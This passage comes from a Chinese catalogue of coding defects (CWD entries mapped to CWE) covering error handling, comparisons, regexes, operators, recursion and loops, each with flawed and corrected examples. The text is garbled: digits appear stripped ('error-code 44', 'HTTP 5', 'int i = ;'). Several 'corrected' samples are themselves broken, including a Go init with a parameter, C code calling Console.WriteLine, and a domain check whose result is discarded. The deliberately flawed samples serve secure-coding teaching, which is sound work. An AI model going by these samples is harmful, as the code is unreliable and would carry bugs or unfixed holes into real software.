        throw new RuntimeException("xxx");
    }
    ...
}
```

**正例**
```java
public class Employee {
    ...
    public String getSomeInfo() throws MyBizException{
        ...
        throw new MyBizException("xxx");
    }
    ...
}
```

**修复建议**
上述示例中，getSomeInfo()抛出MyBizException，异常与方法的抽象层次保持一致。

#### CWD-1220-000 捕获过于宽泛的异常

#### CWD-1220-001 行为顺序不正确：异常捕获的顺序不正确

#### CWD-1220-002 Java应避免捕获Error，仅捕获可处理的Exception。

#### CWD-1220-003 未正确检查全局错误码errno

**业界缺陷**

- [CWE-396: Declaration of Catch for Generic Exception](https://cwe.mitre.org/data/definitions/396.html)
---

# CWD-1225 错误状态未作处置

**描述**
产品检测到特定错误，但未采取任何措施进行处理。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**缺陷防护全景**
**编码**
- 策略1：
  争取处理错误或异常场景，避免遗漏return语句等。

**示例**
**案例1: 对于错误场景未进行有效的错误处理**
**语言: **C

**描述**
下面的示例尝试为一个字符分配内存。调用 malloc 之后，使用 if 语句检查 malloc 函数是否失败。
该条件语句成功检测到 malloc 返回 NULL 值，表明执行失败，但它并未采取任何措施来处理该问题。未处理的错误可能会导致意外结果，甚至导致程序崩溃或终止。

**反例**
```c
foo=malloc(sizeof(char)); //the next line checks to see if malloc failed
if (foo==NULL) {
    //We do nothing so we just ignore the error.
}
```

**正例**
```c
foo=malloc(sizeof(char)); //the next line checks to see if malloc failed
if (foo==NULL) {
    printf("Malloc failed to allocate memory resources");
    return -1;
}
```

**修复建议**
if 块应该包含以下语句：尝试修复问题；通知用户发生错误并继续处理；执行某些清理操作并正常终止程序。以下示例通知用户 malloc 函数未分配所需的内存资源，并返回错误代码。

#### CWD-1225-000 检测到错误但未处理

#### CWD-1225-001 重新抛出同一已捕获的异常

#### CWD-1225-002 校验未通过，函数未退出，造成后续流程错误

**业界缺陷**

- [CWE-390: Detection of Error Condition Without Action](https://cwe.mitre.org/data/definitions/390.html)
---

# CWD-1226 初始化失败后不退出

**描述**
当初始化失败后，程序不会退出，这可能会导致程序以错误的状态继续执行。

**语言: **C,CPP,JAVA,GO

**严重等级**
提示

**cleancode特征**
可靠

**示例**
**案例1: 初始化失败而程序未终止**
**语言: **GO

**描述**
由于init函数没有返回值，如果init函数内发生初始化失败，只能通过异常来反馈错误。因此，应该慎用init函数进行复杂的初始化动作。

**反例**
```go
package huaweifunction8

import (
    "fmt"
    "io/ioutil"
)

func init() {
    fileInfos, err := ioutil.ReadDir("./dir/") // 不符合
    if err != nil {
        return
    }
    for _, info := range fileInfos {
        if info.IsDir() {
            fmt.Println(info.Name(), "\\")
        }
    }
}
```

**正例**
```go
// 符合：将文件打开操作删除或移出init函数
package huaweifunction8

import "fmt"

func init(i int) {
    fmt.Println("init in main.go ")
}
```

**修复建议**
避免在init函数中进行如申请资源、打开文件、连接数据库等可能失败的操作

#### CWD-1226-000 初始化失败后不退出

#### CWD-1226-001 springBean服务接口的PostConstruct出现异常，进程未退出，造成后续使用接口异常

#### CWD-1226-002 类的初始化出现异常，为设置标记或者退出，造成后续使用异常

**业界缺陷**

- [CWE-455: Non-exit on Failed Initialization](https://cwe.mitre.org/data/definitions/455.html)
---

# CWD-1227 finally代码块非正常结束

**描述**
在finally代码块中，由于直接使用return、break、continue语句，或者由于调用方法的异常未处理，会导致finally代码块无法正常结束。非正常结束的finally代码块会影响try或catch代码块中异常的抛出，也可能会影响函数或方法的返回值。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

**缺陷防护全景**
**编码**
- 策略1：遵循编码规范
  不要使用return、break、continue或抛出异常使finally块非正常结束。

**示例**
**案例1: finally代码块中使用return语句**
**语言: **JAVA

**描述**
finally代码块中执行return 语句，会影响函数的实际返回值。

**反例**
```java
public int doSomething() {    
    int result = 0;
    ... 
    try {
        result = doSomethingElse();
        ... 
        return result;		
    } catch (IOException ex) {
        ...
    } finally {
        return -1;
    }   
}
```

**正例**
```java
public int doSomething() {    
    int result = 0;
    ... 
    try {
        result = doSomethingElse();
        ... 
        return result;		
    } catch (IOException ex) {
        ...
    }
    return -1;   
}
```

**修复建议**
避免在finally代码块中执行return 语句。

#### CWD-1227-000 finally代码块非正常结束

#### CWD-1227-001 finally存在抛出异常的逻辑

**业界缺陷**

- [CWE-584: Return Inside Finally Block](https://cwe.mitre.org/data/definitions/584.html)
---

# CWD-1228 缺少自定义错误页面

**描述**
在软件工程中，错误页面用于向用户显示系统错误信息。自定义错误页面可以提供更友好、个性化的错误信息，帮助用户更好地理解错误原因并采取相应的解决措施，也避免通过错误页面泄露敏感信息。

**语言: **JAVA

**严重等级**
一般

**cleancode特征**
安全

**缺陷防护全景**
**编码**
- 策略1：遵循编码规范
  在web容器中配置统一的错误页面。

**示例**
**案例1: tomcat容器中配置错误处理页面**
**语言: **JAVA

**描述**
Web 应用程序必须定义默认错误页面，以防止攻击者从应用程序容器的内置错误响应中挖掘信息。
当攻击者探索某个网站以寻找漏洞时，该网站提供的信息量对于任何试图攻击的最终成功或失败至关重要。如果应用程序向攻击者显示堆栈跟踪，相当于主动提供了使攻击者实现超容易攻击的信息。例如，堆栈跟踪可能会向攻击者显示格式错误的 SQL 查询字符串、正在使用的数据库类型以及应用程序容器的版本。此信息使攻击者能够针对这些组件中的已知漏洞进行攻击。
应用程序配置应指定默认错误页面，以保证应用程序永远不会将错误消息泄露给攻击者。处理标准 HTTP 错误代码不仅是一种良好的安全实践，而且非常有用且对用户友好，且良好的配置还将定义最后机会错误处理程序，以捕获应用程序可能抛出的任何异常。

**反例**
```xml
<web-app>

<!-- 其他配置 -->


// 【POTENTIAL FLAW】未定义任何默认错误页面

<error-page/>


</web-app>
```

**正例**
```java
<web-app>

<!-- 其他配置 -->


<!-- 定义特定错误页面 -->

<error-page>

<error-code>44</error-code>

// 【GOOD】针对HTTP 44状态码使用自定义的错误页面

<location>/error44.jsp</location>

```

**修复建议**
Web应用程序必须在web.xml中配置默认的错误页面，应当至少包含对HTTP 44、HTTP 5和Java Throwable异常的错误处理。

#### CWD-1228-000 缺少自定义错误页面

**业界缺陷**

- [CWE-756: Missing Custom Error Page](https://cwe.mitre.org/data/definitions/756.html)
---

# CWD-1230 异常继承不正确

**描述**
在面向对象编程中，异常类通常是通过继承抽象基类Exception或其子类来实现的。如果在继承关系中存在问题，可能会导致异常处理不当，从而影响程序的正确性和可靠性。

**语言: **CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1230-000 异常继承不正确

---

# CWD-1231 未正确使用退出函数

**描述**
exit系列函数可能会存在资源未清理、不正确退出、程序崩溃等安全漏洞。如J2EE的System.exit()会结束当前正在运行的Java虚拟机（JVM），导致拒绝服务攻击。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

#### CWD-1231-000 未正确使用退出函数

#### CWD-1231-001 System.exit()的使用

#### CWD-1231-002 C 标准库中的 exit() 函数使用错误

---

# CWD-1234 部分字符串比较

**描述**
当比较两个字符串时，有两种情况：完全匹配和部分匹配。比较方法或函数的选择如果不符合意图，可能会导致字符串比较结果与预期不符。例如，在 C 语言中，如果想检查两个字符串是否完全相同，需要使用 strcmp 函数，该函数比较两个字符串的所有字符。如果使用 strncmp 函数，可能会导致错误的结果，因为 strncmp 只比较两个字符串的前 n 个字符。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**缺陷防护全景**
**编码**
- 策略1：遵循编码规范

**示例**
**案例1: 字符串未全量比对**
**语言: **JAVA

**描述**
域名校验不能使用indexOf, startWith 和contains校验，有可能绕过。

**反例**
```java
URL newUrl = new URL("http://huawei.com");
String hostName = newUrl.getHost();
List range = new ArrayList<>();
for (String ran: range) {
    hostName.contains(ran);
    System.out.println("");
}
System.out.println("");
```

**正例**
```java
URL newUrl = new URL("http://huawei.com");
String hostName = newUrl.getHost();
List range = new ArrayList<>();
for (String ran: range) {
    hostName.endsWith(ran);
    System.out.println("");
}
System.out.println("");
```

**修复建议**
使用endWith，equal 或其他方法校验

#### CWD-1234-000 部分字符串比较

#### CWD-1234-001 错误使用接口导致字符串的比较场景不完整使业务流程错误：C/CPP语言用strlen截取长度

#### CWD-1234-002 错误使用接口导致字符串的比较场景不完整使业务流程错误：域名校验使用indexOf, startsWith 和contains

**业界缺陷**

- [CWE-187: Partial String Comparison](https://cwe.mitre.org/data/definitions/187.html)
---

# CWD-1235 多条件表达式中缺少默认分支

**描述**
多条件表达式是一种编程结构，它评估多个条件，并根据哪个条件为真执行不同的代码块。默认情况是当没有指定的条件为真时执行的处理意外输入的方式。缺少默认情况可能导致程序逻辑错误。例如，在 switch 语句中缺少 default 子句、if…else if结构未以else语句结束。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**缺陷防护全景**
**编码**
- 策略1：遵循编码规范
  存在多个检查分支情况下，避免遗漏检查场景，在判断的最后添加兜底检查分支。

**示例**
**案例1: 多个判断分支存在遗漏校验场景**
**语言: **JAVA

**描述**
含多个else if条件组合的判断逻辑，往往会出现被遗漏的分支，在最后设置一个else分支可对遗漏场景进行处理。

**反例**
```java
if ((employee.flags & HOURLEY_FLAG) && (employee.age > RETIRED_AGE)) {
    ...
} else if ((employee.flags & HOURLEY_FLAG) && (employee.age < RETIRED_AGE)) {
    ...
} else if ((employee.flags & HOURLEY_FLAG) && (employee.age == RETIRED_AGE)) {
    ...
}
```

**正例**
```java
if ((employee.flags & HOURLEY_FLAG) && (employee.age > RETIRED_AGE)) {
    ...
} else if ((employee.flags & HOURLEY_FLAG) && (employee.age < RETIRED_AGE)) {
    ...
} else if ((employee.flags & HOURLEY_FLAG) && (employee.age == RETIRED_AGE)) {
    ...
} else {
    ...
}
```

**修复建议**
含多个else if条件组合的判断逻辑，往往会出现被遗漏的分支，在最后设置一个else分支可对遗漏场景进行处理。

#### CWD-1235-000 多条件表达式中缺少默认分支

#### CWD-1235-001 多条件表达式中缺少默认分支default

**业界缺陷**

- [CWE-478: Missing Default Case in Multiple Condition Expression](https://cwe.mitre.org/data/definitions/478.html)
---

# CWD-1236 不带最小值检查的范围比较

**描述**
根据数值范围进行业务、逻辑等检查时，会检查值以确保其小于或等于最大值，但不会同时验证该值是否大于或等于最小值（如仅允许正取值的整型变量没有检查负值和0值）。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**缺陷防护全景**
**编码**
- 策略1：遵循编码规范

**示例**
**案例1: 校验场景不全**
**语言: **C

**描述**
openssl大数接口参数检查。要求BN_set_word接口的第二参数不能小于`65537`

**反例**
```c
void test_bad_1()
{
    BN_set_word(NULL, 65535);
}
```

**正例**
```c
void test_good_1()
{
    BN_set_word(NULL, 65537);
}
```

**修复建议**
按照要求将第二参数至少设置为`65537`

#### CWD-1236-000 不带最小值检查的范围比较

#### CWD-1236-001 数值范围检查缺失最小值验证，导致可能分配过大内存或处理异常值

**业界缺陷**

- [CWE-839: Numeric Range Comparison Without Minimum Check](https://cwe.mitre.org/data/definitions/839.html)
---

# CWD-1237 比较时两个对象的类型不兼容

**描述**
比较两个不同的、不兼容的数据类型的对象可能会产生不正确的结果，导致程序出现意外行为或错误。例如基本数据类型之间的比较（如整数和浮点数比较、字符串和整数比较）；不同的类或结构体之间的比较，以及不同库中的自定义类型的比较（如X_INT16与Y_INT16比较，可能一个是short，一个是int）。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**缺陷防护全景**
**编码**
- 策略1：
  避免隐式类型转换

**示例**
**案例1: 类型强转异常**
**语言: **JAVA

**描述**
本示例中，直接将外部传入的对象强转为SomeResource类型，当类型不匹配时会抛出java.lang.ClassCastException。

**反例**
```java
public void doSomething(Object obj) {
    ...
    SomeResource resouce = (SomeResource)obj;
    ...
}
```

**正例**
```java
public void doSomething(Object obj) {
    ...
    if(obj instanceof SomeResource) {
        SomeResource resouce = (SomeResource)obj;
        ...
    }
}
```

**修复建议**
在将外部传入的对象强转为SomeResource类型前，先使用instanceof进行了类型判断，这样可以有效避免当类型不匹配时抛出java.lang.ClassCastException。

#### CWD-1237-000 比较时两个对象的类型不兼容

#### CWD-1237-001 脚本语言隐式转换是用例不兼容类型进行比较导致意外结果

**业界缺陷**

- [CWE-1024: Comparison of Incompatible Types](https://cwe.mitre.org/data/definitions/1024.html)
---

# CWD-1238 比较操作使用了错误的对象

**描述**
比较的两个对象之间无关联关系，比如比较的两个指针指向不同的对象，比较的两个迭代子指向不同的容器。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**缺陷防护全景**
**编码**
- 策略1：
  避免隐式类型转换

**示例**
**案例1: 使用==比较对象**
**语言: **JAVA

**描述**
本示例中，使用相同的字符串值声明和初始化了两个Java String对象。if语句用于确定字符串是否等价。对于Java对象，例如String对象，“==”运算符比较对象引用，而不是对象值。虽然上面的两个String对象包含相同的字符串值，但它们引用的对象引用不同，因此System.out.println语句不会被执行。

**反例**
```java
String str1 = new String("Hello");
String str2 = new String("Hello");
if (str1 == str2) {
    System.out.println("str1 == str2");
}
```

**正例**
```java
if (str1.equals(str2)) {
    System.out.println("str1 equals str2");
}
```

**修复建议**
要比较对象值，可以将前面的代码修改为使用equals方法。

#### CWD-1238-000 比较操作使用了错误的对象

#### CWD-1238-001 按类名进行比较

#### CWD-1238-002 对象的地址或值比较使用了不正确的比较操作符

#### CWD-1238-003 比较的两个指针指向不同的对象

#### CWD-1238-004 比较的两个迭代子指向不同的容器

#### CWD-1238-005 比较时未正确判断接口变量是否为nil

#### CWD-1238-006 JAVA中比较的两个对象属于不同的对象类型

**业界缺陷**

- [CWE-1025: Comparison Using Wrong Factors](https://cwe.mitre.org/data/definitions/1025.html)
---

# CWD-1244 浮点数比较方法使用错误

**描述**
由于浮点数的精度问题，浮点数比较时使用错误的方法，会导致程序出现不可预测的行为。例如，使用等于（==）或不等于（!=）操作符进行比较可能会导致错误的结果，Java中浮点型包装类型用equals()比较也容易出错。

**语言: **C,CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**编码**
- 策略1：遵守编程规范
  浮点数的等值判断需要考虑精度问题，保证在一定误差范围内进行判断。以Java语言为例：浮点型数据判断相等不要直接使用==，浮点型包装类型不要用equals()或者flt.compareTo(another) == 0作相等的比较。

**示例**
**案例1: 浮点数等值比较**
**语言: **JAVA

**描述**
由于浮点数的精度问题，直接使用==比较，实际结果与预期不符。

**反例**
```java
float f1 = 1.0f - 0.9f;
float f2 = 0.9f - 0.8f;
if (f1 == f2) {
    // 预期进入此代码块，执行其他业务逻辑
    // 但事实上 fl == f2 的结果为 false
}
Float flt1 = Float.valueOf(f1);
Float flt2 = Float.valueOf(f2);
if (flt1.equals(flt2)) {
    // 预期进入此代码块，执行其他业务逻辑
    // 但事实上 equals 的结果为 false
}

BigDecimal bd1 = new BigDecimal("2.0");
BigDecimal bd2 = new BigDecimal("2.00");
if (bd1.equals(bd2)) {
    // ...
}
```

**正例**
```java
private static final float EPSILON = 1e-6f;

float foo = ...;
float bar = ...;

// 在保证foo与bar符号相同的前提下，误差小于EPSILON时判断两个浮点数数值相等
if (Math.abs(foo - bar) < EPSILON) {
    ...
}

BigDecimal bd1 = new BigDecimal("2.0");
BigDecimal bd2 = new BigDecimal("2.00");
if (bd1.compareTo(bd2) == 0) {
    // ...
}
```

**修复建议**
考虑浮点数的精度问题，可在一定的误差范围内判定两个浮点数值相等。这个误差应根据实际需要进行定义。另外，对于符号不同的两个浮点数，即使在误差范围内也不应该判为相等。如下示例中，两个浮点数值误差在1e-6f内判为相等。

#### CWD-1244-000 浮点数比较方法使用错误

#### CWD-1244-001 浮点比较使用运算符不当

**业界缺陷**

- [CWE-1077: Floating Point Comparison with Incorrect Operator](https://cwe.mitre.org/data/definitions/1077.html)
---

# CWD-1246 正则表达式书写没有确切的边界

**描述**
在书写正则表达式时，未明确边界锚定符，可能会允许恶意或畸形数据通过。如果未锚定正则表达式，则可能在任何与正则表达式匹配的字符串之前或之后包含恶意或格式错误的数据。允许的恶意数据的类型将取决于应用程序的上下文以及正则表达式中忽略的锚点。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
安全,可靠

**缺陷防护全景**
**编码**
- 策略1：遵守编码规范
  遵守正则表达式书写规范

**示例**
**案例1: 正则书写不规范**
**语言: **JAVA

**描述**
在正则表达式中，边界 ^ 和 \A 只能在输入的开头匹配, $、\Z 和 \z 只能在结尾，错误的使用将导致正则表达式永远无法匹配。

**反例**
```java
Pattern.compile("$[a-z]+^");
```

**正例**
```java
Pattern.compile("^[a-z]+$");
```

**修复建议**
在正则表达式中，边界 ^ 和 \A 只能在输入的开头匹配, $、\Z 和 \z 只能在结尾。

#### CWD-1246-000 正则表达式书写没有确切的边界

**业界缺陷**

- [CWE-777: Regular Expression without Anchors](https://cwe.mitre.org/data/definitions/777.html)
---

# CWD-1247 正则表达式书写未转义元字符

**描述**
正则表达式对.、$等字符有特殊含义，在正则中未对这些特殊字符进行转义，会导致正则表达式与预期结果不符，扩展匹配范围。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

**缺陷防护全景**
**编码**
- 策略1：遵守编码规范
  遵守正则表达式书写规范

**示例**
**案例1: 正则书写不规范**
**语言: **JAVA

**描述**
正则表达式中的特殊字符使用是未进行转义。

**反例**
```java
Pattern.compile("^[a-z]+.jpg$");
```

**正例**
```java
Pattern.compile("^[a-z]+\.jpg$");
```

**修复建议**
正则表达式中匹配.时，应该使用\.表示。

#### CWD-1247-000 正则表达式书写未转义元字符

---

# CWD-1248 操作符使用不正确

**描述**
在编程中错误地使用了操作符，导致逻辑错误或者未预期的行为。如：“==”写成了“=”；在一个表达式中运算符优先级使用错误导致了逻辑错误。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可读

**缺陷防护全景**
**编码**
- 策略1：遵守编程规范
  不要在控制性条件表达式中执行赋值操作

**代码检查**
- 策略1：静态分析工具
  识别代码中是否有控制语句中执行赋值操作

**示例**
**案例1: 方法在布尔表达式中误写为赋值操作**
**语言: **C

**描述**
此方法在 if 或 while 表达式中将字面布尔值（true 或 false）分配给布尔变量。很可能这应该是使用 == 进行布尔比较，而不是使用 = 进行赋值。

**反例**
```c
int isValid(int value) {
    if (value=100) {
        printf("Value is valid\n");
        return(1);
    }
    printf("Value is not valid\n");
    return(0);
}
```

**正例**
```c
bool isValid(int value) {
    if (value==100) {
        Console.WriteLine("Value is valid.");
        return true;
    }
    Console.WriteLine("Value is not valid.");
    return false;
}
```

**修复建议**
布尔类型比较使用‘==’而不是‘=’。

#### CWD-1248-000 操作符使用不正确

#### CWD-1248-001 比较操作符（“==”）与赋值操作符（“=”）之间误用

#### CWD-1248-002 对指针类型使用了错误的操作符

#### CWD-1248-003 使用不合规定的操作符

#### CWD-1248-004 可疑的按位逻辑表达式

#### CWD-1248-005 关系运算符与位运算符的误用（操作符&&和&混淆）

#### CWD-1248-006 关系运算符与位运算符的误用（操作符||和|混淆）

#### CWD-1248-007 三目运算符（? :）的第二、三表达式类型不一致，导致类型转换失败或错误发生转换

#### CWD-1248-008 在初始化列表等无序列点环境中混合使用带副作用的自增(++)/自减(--)操作符，导致求值顺序未定义和结果不一致

#### CWD-1248-009 变量与常量进行比较时，应当将常量放置在前面，变量放置在后面，放置出现NPE异常

#### CWD-1248-010 字符串比较中使用错误运算符

#### CWD-1248-011 在条件判断中混淆了“或”（||）和“与”（&&）运算符

**业界缺陷**

- [CWE-480: Use of Incorrect Operator](https://cwe.mitre.org/data/definitions/480.html)
---

# CWD-1252 代码块定界不正确

**描述**
代码未显式分隔包含2个或以上语句的代码块，从而产生逻辑错误。可能导致明显不正确的行为。

**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
可读

**缺陷防护全景**
**编码**
- 策略1：遵循编码规范
  在条件语句和循环块中应该使用大括号

**代码检查**
- 策略1：静态分析工具
  识别代码中是否有使用大括号

**示例**
**案例1: 条件语句未使用大括号**
**语言: **C

**描述**
条件语句中有多条语句时，未使用大括号对这些语句进行限定。

**反例**
```c
if (condition==true)
    Do_X();
    Do_Y();
```

**正例**
```c
if (condition==true)
{
    Do_X();
    Do_Y();
}
```

**修复建议**
条件语句后必须使用大括号。

#### CWD-1252-000 代码块定界不正确

#### CWD-1252-001 包含多条语句的函数式宏未显式指定其边界

#### CWD-1252-002 单个文件内未闭合#if和#ifdef等预处理块

#### CWD-1252-003 多余的分号导致代码块错误

**业界缺陷**

- [CWE-483: Incorrect Block Delimitation](https://cwe.mitre.org/data/definitions/483.html)
---

# CWD-1257 发布版本中存在可达断言

**描述**
在正式发布版本中调用assert()会影响程序的性能和效率，触发断言导致程序退出会带来极大不便和损失。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**缺陷防护全景**
**编码**
- 策略1：遵守编程规范
  正式发布对外发布的版本中不应该包含断言

**示例**
**案例1: 对外交付代码中使用断言**
**语言: **JAVA

**描述**
避免在正式交付的代码中使用断言，因为断言可通过启动参数禁用掉，导致断言检查失效。

**反例**
```java
String data = null;
...
assert data != null;
...
```

**正例**
```java
String data = null;
...
if (data != null) {
    ...  
}
```

**修复建议**
使用其他方法代替断言，如if语句。

#### CWD-1257-000 发布版本中存在可达断言

#### CWD-1257-001 代码中使用断言进行运行态错误检查会触发AssertionError，导致程序异常终止或因为断言（assert）禁用而导致错误未处理

#### CWD-1257-002 代码中使用断言执行业务逻辑代码，会导致程序因为断言（assert）的启用/禁用产生不同的逻辑

**业界缺陷**

- [CWE-617: Reachable Assertion](https://cwe.mitre.org/data/definitions/617.html)
---

# CWD-1262 带有多个逻辑表达式的条件语句含有副作用

**描述**
包含一个具有多个逻辑表达式的条件语句，其中一个非前导表达式可能会产生副作用。这可能会导致程序在执行条件后出现意外状态，因为短路逻辑可能会阻止副作用的发生。包括逻辑与（&&）、逻辑或（||）、问号操作符（?）和 coalescing（??）等。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**示例**
**案例1: 复杂的条件判断表达式**
**语言: **C

**描述**
下面的函数尝试从用户获取一个大小值，并分配一个该大小的数组（为了简单起见，我们忽略边界检查）。该函数尝试用每个点的索引值初始化每个点，即A[len-1]=len-1;A[len-2]=len-2;...A[1]=1;A[0]=0；但是，由于程序员使用前缀递减运算符，当i == 1计算条件时，递减将导致谓词的第一部分的值为0，导致通过短路计算绕过第二部分。这意味着当我们将数组返回给用户时，我们无法确定A[0]中的值是什么。

**反例**
```c
#define PRIV_ADMIN 0
#define PRIV_REGULAR 1
typedef struct{
    int privileges;
    int id;
} user_t;

user_t *Add_Regular_Users(int num_users){
    user_t* users = (user_t*)calloc(num_users, sizeof(user_t));
    int i = num_users;
    while( --i && (users[i].privileges = PRIV_REGULAR) ){
        users[i].id = i;
    }
    return users;
}

int main(){
    user_t* test;
    int i;
    test = Add_Regular_Users(25);
    for(i = 0; i < 25; i++) {
	    printf("user %d has privilege level %d\n", test[i].id, test[i].privileges);
    }
}
```

**正例**
```c
#define PRIV_ADMIN 0
#define PRIV_REGULAR 1
typedef struct{
    int privileges;
    int id;
} user_t;

user_t *Add_Regular_Users(int num_users){
    user_t* users = (user_t*)calloc(num_users, sizeof(user_t));
    int i = num_users;
    while( i>=0 && (users[i].privileges = PRIV_REGULAR) ){
        users[i].id = i;
		i--;
    }
    return users;
}

int main(){
    user_t* test;
    int i;
    test = Add_Regular_Users(25);
    for(i = 0; i < 25; i++) {
	    printf("user %d has privilege level %d\n", test[i].id, test[i].privileges);
    }
}
```

**修复建议**
当编译和运行时，上面的代码将为除id为0的用户之外的每个用户输出一个特权级别1或PRIV_REGARY，因为在if语句中使用的前缀递增运算符将在设置第0个用户的特权级别之前达到零并短路。因为我们使用了calloc，所以这个权限会被设置为0或者PRIV_ADMIN。

#### CWD-1262-000 带有多个逻辑表达式的条件语句含有副作用

#### CWD-1262-001 在含有短路特性的控制语句中包含操作类语句

**业界缺陷**

- [CWE-768: Incorrect Short Circuit Evaluation](https://cwe.mitre.org/data/definitions/768.html)
---

# CWD-1264 未受控制的递归

**描述**
无限制的递归包括递归没有正确的退出条件，或者递归深度过大。比如函数一遍又一遍地调用自身，直到堆栈溢出，导致程序崩溃。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**缺陷防护全景**
**编码**
- 策略1：
  循环语句要有明确的终止条件

**示例**
**案例1: 递归深度无限制**
**语言: **C

**描述**
排查函数递归调用，对递归深度无限制的方法进行告警。

**反例**
```c
int recursivecall_bad_1()
{
    if (1) {
        // POTENTIAL FLAW:Recursive call in the function 'recursivecall_bad_1'. Please note to limite the recursion depth.
        recursivecall_bad_1();
        return 1;
    } else { 
        return ;
    }   
}
```

**正例**
```c
int recursivecall_good_1(int n)
{
    int x;
    if (n == 1) {
        x = 1;
    } else {
        x = recursivecall_good_1(n-1);
    }
    return x;
}
```

**修复建议**
控制递归的深度，防止递归调用太深导致的栈分配过大

#### CWD-1264-000 未受控制的递归

#### CWD-1264-001 使用超大局部变量或深度递归时，未控制栈消耗，导致栈溢出

#### CWD-1264-002 内层循环中使用 continue 试图跳过外层循环的后续检查，但实际只跳过了内层循环的迭代，可能存在逻辑错误的风险

#### CWD-1264-003 在双重循环中找到正确项后，使用 break 仅退出内层循环，外层循环继续执行，导致不必要的计算，存在逻辑错误的风险

#### CWD-1264-004 递归深度/终止条件来自未校验的外部数据，递归深度异常，发生堆栈溢出错误。

#### CWD-1264-005 【递归函数无终止条件:函数一直递归调用，深度一直增加，直到发生堆栈溢出错误。】函数递函数无终止条件:函数一直递归调用，深度一直增加，直到发生堆栈溢出错误。

**业界缺陷**

- [CWE-674: Uncontrolled Recursion](https://cwe.mitre.org/data/definitions/674.html)
---

# CWD-1265 循环退出条件不可达（死循环、无限循环）

**描述**
循环的退出条件无法触发，导致无限循环，也称为死循环。这种情况下，程序将无限制地运行下去，消耗大量的系统资源，甚至导致系统崩溃。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**缺陷防护全景**
**编码**
- 策略1：
  循环语句要有明确的终止条件

**示例**
**案例1: 无限循环**
**语言: **C

**描述**
while循环中，循环变量i没有被更新。

**反例**
```c
void TestCaseBad1()
{
    int i = ;
    int n = 1;
    // 不符合：while循环中，循环变量i没有被更新
    while (i < n) {
        /* do something */
    }
}
```

**正例**
```c
void TestCaseGood1()
{
    int i = ;
    int n = 1;
    while (i < n) {
        /* do something */
        i++; // 符合
    }
}
```

**修复建议**
循环变量i自增，确保循环能够正常退出

#### CWD-1265-000 循环退出条件不可达（死循环、无限循环）

#### CWD-1265-001 循环变量没有被更新，导致循环无法终止

#### CWD-1265-002 循环变量上界小于循环终止条件导致死循环

#### CWD-1265-003 循环语句中部分逻辑跳过循环变量更新，未重置循环条件，直接进入下一轮循环，导致死循环

#### CWD-1265-004 在循环语句中，循环变量类型的值取值范围小于循环边界值，导致死循环无法退出

#### CWD-1265-005 自定义sort函数的compare函数不符合严格弱序，导致死循环崩溃

#### CWD-1265-006 使用条件变量的wait方法时，无外加条件判断，并在循环中等待

**业界缺陷**

- [CWE-835: Loop with Unreachable Exit Condition ('Infinite Loop')](https://cwe.mitre.org/data/definitions/835.html)
---

# CWD-1266 在单线程、非阻塞上下文中使用阻塞代码

**描述**
由于单线程意味着只有一个线程在执行任务，因此如果这个线程被阻塞，整个程序将会被挂起，无法继续执行后续操作。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**示例**
**案例1: 在主线程中执行阻塞代码**
**语言: **JAVA

**描述**
URL的equals和hashCode方法是阻塞的。
URL的equals和hashCode方法会执行域名解析，这可能会导致性能大幅下降，不符合调用equals和hashCode方法的预期。

**反例**
```java
URL url=new URL("http://www.example.com");
url.hashCode();  // [BAD] 比较URL对象的hashcode和equalsurl.equals(url);
```

**正例**
```c
URL url=new URL("http://www.example.com");
URI uri=url.toURI(); // [GOOD] 使用toURI方法，比较URI对象的hashcode和equals
uri.hashCode();
uri.equals(uri);
```

**修复建议**
使用URI的hashcode、equals方法代替使用URL的。

#### CWD-1266-000 在单线程、非阻塞上下文中使用阻塞代码

#### CWD-1266-001 【Kafka使用不当导致的可靠可用性问题】生产者send数据后没有使用callback机制响应消息

#### CWD-1266-002 【Redis使用不当导致的性能问题】使用RedisConnectionFactory初始化RedisCacheManager对象会导致线程阻塞严重问题

#### CWD-1266-003 外部进程阻塞在输入输出流上

**业界缺陷**

- [CWE-1322: Use of Blocking Code in Single-threaded, Non-blocking Context](https://cwe.mitre.org/data/definitions/1322.html)
---

# CWD-1268 未正确验证循环条件

**描述**
外部数据作为循环条件，但不校验是否在预期范围内，可能会导致死循环、缓冲区溢出等问题。

**语言: **C,CPP,JAVA

**严重等级**
提示

**cleancode特征**
可靠

**缺陷防护全景**
**编码**
- 策略1：
  循环语句要有明确的终止条件

**示例**
**案例1: 循环语句的控制条件判断不当**
**语言: **C

**描述**
检查EMAP_GetNetU16、EMAP_GetNetU32函数获取的变量是否用于for循环，如果有则上报存在越界写告警。

**反例**
```c
VOS_UINT16 CFieldLenChecker::CheckNStructFieldLenAndMoveForward(VOS_UINT32 maxLen, VOS_UINT32 &curLen,
VOS_UINT8 *&data,
const FieldLenCfgInfo *fieldCfg)
{
    VOS_UINT16 structNum = ;
    VOS_UIN16 lenOfNumInfo = 2;
    
    if (CheckFieldLen(maxLen, curLen, lenOfNumInfo) != VOS_OK) {
        return VOS_ERR;
    }
    
    curLen += lenOfNumInfo;
    EMAP_GetNetU16(data, structNum);
    
    for (VOS_UINT16 index = ; index < structNum; index++) {//for循环变量structNum来自函数EMAP_GetNetU16,未校验大小,存在越界读写风险，
        EMAP_GetNetU16(data,lenOfNumInfo);
